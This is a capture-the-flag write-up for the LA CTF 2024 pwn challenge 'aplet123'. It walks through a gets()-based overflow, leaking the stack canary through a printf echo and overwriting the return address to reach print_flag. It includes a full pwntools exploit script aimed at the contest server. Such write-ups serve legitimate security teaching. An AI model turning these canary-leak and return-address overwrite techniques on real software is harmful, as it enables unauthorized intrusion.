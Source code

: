```yaml
---
title: aplet123
type: writeup
date:  2024-02-25T20:00:00+02:00
description: Writeup for aplet123 [LA CTF 2024]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

bliutech: Can we get ApletGPT?
me: No we have ApletGPT at home.
ApletGPT at home:

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash 

$ checksec --file=aplet123
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123

```

We can see that it has canary and No PIE, after opening it in Ghidra we can see that we have three options from which we can choose, the only one that actually leaks something is the first option which can be entered if our input has 'i'm' in it. In Ghidra we can also see a print_flag function, so this seems like a ret2win where we first need to leak the canary and then call the print_flag function.



```C
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("hello");
  while( true ) {
    while( true ) {
      while( true ) {
        gets(local_58);
        pcVar3 = strstr(local_58,"i\'m");
        if (pcVar3 == (char *)0x0) break;
        printf("hi %s, i\'m aplet123\n",pcVar3 + 4);
      }
      iVar1 = strcmp(local_58,"please give me the flag");
      if (iVar1 != 0) break;
      puts("i\'ll consider it");
      sleep(5);
      puts("no");
    }
    iVar1 = strcmp(local_58,"bye");
    if (iVar1 == 0) break;
    iVar1 = rand();
    puts(*(char **)(responses + ((ulong)(long)iVar1 % 0x21) * 8));
  }
  puts("bye");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
The exploit for this challenge is to first leak the canary with the first option and then call the print_flag function. I also leaked the addresses of the print_flag function even though this wasn't necessary because it had No PIE.

### Solution

The solution is pretty straightforward, it's a ret2win with the need to leak the canary. 

```py
from pwn import *

gdbscript = """
b *main
c
"""

#target = gdb.debug("./aplet123",gdbscript=gdbscript)
#target = process("./aplet123")
target = remote("chall.lac.tf",31123)
# this is extra
main_offset = 0x401261
print_flag_offset = 0x4011e6
function_offset = main_offset - print_flag_offset

# ============================= Canary Leak =============================

padding = 69*"A" + "i'm"
#we want to leak the main address so first I'll leak the canary so we can read after the canary what mains address is
target.sendlineafter(b"hello",padding.encode())
target.recvline()
canary = target.recvline()

leaked_canary = ''
for i in range(3,10):
    if (chr(canary[i])!= ','):
        leaked_canary += canary[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_canary = "".join(reversed([leaked_canary[i:i+2] for i in range(0,len(leaked_canary),2)]))
print(hex(int(leaked_canary,16)))

# ============================= Canary Leak =============================

# No need to leak the main if we have NO pie, I still did it 
# ============================= Main Leak =============================

padding = 100*"A" + "i'm"
target.sendline(padding.encode())
main = target.recvline()

leaked_main = ''
for i in range(3,10):
    if (chr(main[i])!= ','):
        leaked_main += main[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_main = "".join(reversed([leaked_main[i:i+2] for i in range(0,len(leaked_main),2)]))
print(hex(int(leaked_main,16)))

# ============================= Main Leak =============================

main_address = int(leaked_main,16)
print(main_address,function_offset)
print_flag_address = main_address - function_offset
print(hex(print_flag_address))

# ============================= Create Payload =============================

leaked_canary += "00"
payload = 9*8*b"A" + p64(int(leaked_canary,16)) + 8*b"B" + p64(print_flag_address)
target.sendline(payload)

# gdb.attach(target)
# pause()

target.sendline(b"bye")

# ============================= Create Payload =============================

target.interactive()
```
